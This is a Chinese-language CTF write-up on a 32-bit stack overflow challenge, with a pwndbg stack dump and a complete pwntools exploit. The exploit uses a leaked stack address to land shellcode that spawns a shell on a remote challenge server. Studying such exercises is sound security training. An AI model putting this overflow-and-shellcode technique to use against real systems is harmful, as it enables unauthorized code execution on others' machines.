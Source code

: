 挺巧妙的一道题

这题的关键点在于，函数调用的参数是这样的
```c
int chall()
{

    char s[];
    ...
    vuln(char(s), 0x400);
    
}
```

因此，在调用`vuln()`时，复制的起始地址是执行`call vuln`之前的esp。栈布局如下：
```
pwndbg> stack 20
00:0000│ esp      0xffffcb50 —▸ 0xffffcb6c ◂— 'crashme'
01:0004│          0xffffcb54 ◂— 0x400
02:0008│          0xffffcb58 ◂— 0x8
03:000c│          0xffffcb5c ◂— 0xd8
04:0010│          0xffffcb60 —▸ 0xf7de276c ◂— add    byte ptr [eax + 0x64], bh
05:0014│          0xffffcb64 —▸ 0xf7fcb110 —▸ 0xf7dd1000 ◂— jg     0xf7dd1047
06:0018│          0xffffcb68 —▸ 0xffffcbbc ◂— 0x0
07:001c│ eax edx  0xffffcb6c ◂— 'crashme'
08:0020│          0xffffcb70 ◂— 0x656d68 /* 'hme' */
09:0024│          0xffffcb74 ◂— 0x0
0a:0028│          0xffffcb78 —▸ 0xf7ffd000 ◂— and    al, 0xbf /* 0x2bf24 */
0b:002c│          0xffffcb7c —▸ 0xf7de276c ◂— add    byte ptr [eax + 0x64], bh
0c:0030│          0xffffcb80 —▸ 0xf7dd890c ◂— add    byte ptr [eax], al
0d:0034│          0xffffcb84 —▸ 0xf7fd17a2 ◂— pop    edi /* '_dl_catch_error' */
0e:0038│          0xffffcb88 —▸ 0xf7dd968c ◂— pop    ebx /* '[5' */
0f:003c│          0xffffcb8c ◂— 0x677f9a5f
10:0040│          0xffffcb90 —▸ 0xffffcbb8 ◂— 0x0
11:0044│          0xffffcb94 ◂— 0x33bfcd2
12:0048│          0xffffcb98 —▸ 0xffffcc4c ◂— 0xffffffff
13:004c│          0xffffcb9c —▸ 0xf7fcb3e0 —▸ 0xf7ffd990 ◂— 0
```

要注意到，复制的src地址其实是`0xffffcb50`，而我们输入的payload的起始地址为`0xffffcb6c`，所以会多复制`0xffffcb50~0xffffcb6c`之间的字节到`vuln`的栈上。

结合这一点，再考虑到`vuln()`函数会复制`0x400`个字节，会改变栈布局，所以我们需要思考复制之后shellcode的地址，再结合泄露的栈地址，就能够完成exp

```python
from pwn import *
from LibcSearcher import *

context.os = 'linux'
context.arch = 'i386'
# context.log_level = "debug"

io = remote('node4.buuoj.cn', 28054)
io.recvuntil(b'crash: ')

s_addr = int(io.recvuntil(b'\n', drop=True), 16)
io.success("s addr: ", hex(s_addr))

payload = b'crashme\x00'.ljust(0x32-0x1c, b'a')+p32(0xdeadbeef)+p32(s_addr-0x1c)+asm(shellcraft.sh())
io.sendline(payload)

io.interactive()
```

ps: 如果以`\n`作为输入的结束，`char *__cdecl fgets(char *_Buffer, int _MaxCount, FILE *_Stream)`写入`_Buffer`的内容中包含最后一个换行符。